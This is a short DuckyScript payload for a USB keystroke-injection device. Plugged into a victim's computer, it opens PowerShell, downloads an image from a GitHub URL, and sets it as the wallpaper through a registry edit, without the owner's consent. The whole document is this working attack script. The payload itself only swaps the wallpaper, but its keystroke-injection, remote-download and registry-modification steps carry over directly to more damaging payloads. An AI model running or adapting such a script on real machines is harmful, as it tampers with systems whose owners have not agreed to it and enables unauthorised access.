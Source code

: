 REM Run, changes wallpaper after restart
GUI
REM Now we enter PowerShell and change directory to C:\Temp
STRING powershell
ENTER
DELAY 1000
STRING cd C:\Temp
ENTER
DELAY 100
REM Here we will download the wallpaper
STRING powershell -command "& { iwr https://raw.githubusercontent.com/brginc/random/master/w.png -OutFile 16387538917.bmp }"
ENTER
DELAY 500
REM Here we modify the wallpaper through registry
STRING reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v Wallpaper /t REG_SZ /d C:\Temp\16387538917.bmp /f
ENTER
DELAY 500
REM Here we update system parameters
STRING RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters
ENTER
DELAY 200
STRING exit
ENTER